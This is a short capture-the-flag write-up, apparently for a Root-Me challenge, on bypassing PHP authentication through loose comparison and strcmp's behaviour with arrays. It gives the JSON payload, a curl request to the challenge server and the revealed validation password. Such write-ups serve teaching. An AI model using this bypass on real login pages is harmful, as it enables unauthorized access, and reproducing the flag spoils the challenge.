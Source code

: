 According to the source code, we are going to try to bypass:

```
if($auth['data']['login'] == $USER && !strcmp($auth['data']['password'], $PASSWORD_SHA256))
```
To do this, we must validate both parts of the expression. $auth['data']['login'] being a string, we can compare it to 0, and the result will be True.

To have **!strcmp($auth['data']['password'], $PASSWORD_SHA256) = True**, we must have  **strcmp($auth['data']['password'], $PASSWORD_SHA256)=False**.

Well, we can read the documentation of the strcmp function, and see that it returns NULL if we pass an array in arguments.

Now, we know that if we send

```
{"data":{"login":0,"password":[]}}
```
 to the page, we should bypass the authentication. But how to send json ? The form will send a json of strings, and it is really important for us to send an integer in "login".

We can use a interceptor, like the Burp Suite, or create a request with curl:

```
curl -X POST "http://challenge01.root-me.org/web-serveur/ch44/auth.php" --data 'auth={"data":{"login":0,"password":[]}}'
```

which returns:

```
{"status":"Access granted! The validation password is: DontForgetPHPL00seComp4r1s0n"}
```
